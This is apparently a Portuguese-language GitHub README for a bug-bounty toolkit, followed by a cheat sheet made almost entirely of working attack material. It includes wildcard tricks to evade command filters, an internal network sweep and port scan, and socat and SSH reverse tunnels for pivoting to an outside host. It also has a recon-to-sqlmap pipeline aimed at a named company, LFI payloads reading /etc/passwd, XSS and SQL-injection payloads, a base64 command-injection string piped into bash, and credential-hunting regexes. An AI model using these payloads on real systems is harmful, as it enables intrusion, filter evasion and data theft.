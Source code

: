 # Bugbounts-ferramentas-e-tutoriais

Esse script baixa as ferramentas mais utilizadas em pentest e bounts, cria arquivos txt passando como usa cada uma, e ainda baixa wordlists mais atuais de parâmetros, dns, diretorios e etc...
<h1>Bypass de bash use a imaginação, aqui está alguns exemplos</h1>
/bin/b??? -p || /bi?/b??? -p = bash</br>
/bin/ne?c?t || /bi?/ne?c?t = nc </br>
/bin/p?t?o?3 || /bi?/p?t?o?3 = python3</br>
/bin/p?t?o?2 || /bi?/p?t?o?2 = python2</br>
/bin/c??l || /bi?/c??l = curl </br>
/bin/w??t || /bi?/w??t = get</br>

<h1>Para fazer um scan na rede do alvo procurando novos ips internos ativos com portas abertas</h1>
route|awk '{print $1}'|grep [[:digit:]] || ip route list |awk '{print $1}'|grep [[:digit:]];echo -e "\e[1;41;1;45mColoqueo ip assim -----> 172.0.0. tire o ultimo numero\e[0m" ;echo -en "Escolha o ip e coloque aqui -->: ";read num ; for i in $(seq 1 255);do ping -W 1 -c 1 $num$i | grep '64 bytes' | awk {'print $4'} | sed 's/.$//g';done > ipvalidos.txt ;for a in $(cat ipvalidos.txt);do nc -nv -w 1 -z $a 80 443 22 21 3306 25 445 139;done
</br>
<h2>Dowlonad do socat para o pivoting</h2>

Comand = wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat;chmod +x socat ;./socat -h

Tutorial = https://deephacking.tech/pivoting-con-socat/
</br>
Uso= ./socat tcp-l:7878,fork,reuseaddr tcp:172.16.0.147:80 &


<h2>Pegando params para sqli</h2>

pegando target das url: 

subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls.txt

filtrando potenciais sqli: 

cat urls | gf sqli | tee -a sqli.txt
</br>
gf = (ssrf,xss,ssti,sqli,redirect,rce,lfi,jsvar,interestingsubs,insterestingparams,interestingEXT,ido,dbug)

jogando para sqlmap:

while read line; do sqlmap -u $line --parse-erros --current-db --invalid-logical --invalid-bignum --invalid-string --riks 3;done < sqli.txt

<h1>Filters PHP</h1>
php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd</br>
php://filter/zlib.deflate/convert.base64-encode/resource=file:///etc/passwd</br>
php://filter/convert.iconv.utf-8.utf-16le/resource=data://plain/text,trololohellooo=</br>
php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=</br>
php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=</br>
php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=</br>
php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala</br>
php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd</br>
php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd</br>

<h1>Git exposed credentias com regex</h1>
/ssh:\/\/.*:.*@.*target\.com/</br>
/ftp:\/\/.*:.*@.*taget\.com/</br>
/ssh:\/\/.*:.*@.*\.com/ NOT "git"</br>

<h1>Log ssh pivoting rota interna </h1>
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i ./id_rsa -R 8888:10.0.1.2:80 -N teste@103.106.0.2 &
</br>
<h2>Paylad xss bons</h2>
%22%20onbeforeinput=alert(document.domain)%20contenteditable%20alt=%22
</br>
data%3Atext%2Fhtml%3Bbase64%2CPGltZyBzcmM9eCBvbmVycm9yPWphdmFzY3JpcHQ6cHJvbXB0KGRvY3VtZW50LmRvbWFpbik%2B
<h1>Insert no download.php</h1>
</br>
;echo%20Y2F0IC9ldGMvcGFzc3dkCg==|base64%20-d|bash%00.zip | grep root:.*:0:0

<h1>SQLI com .php</h1>
</br>
"0'XOR(if(now()=sysdate(),sleep(6-2),0))XOR'Z.php
</br>
<h1>Query completa GraphQl</h1>

<p>{"query": "query IntrospectionQuery{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}"}</p>
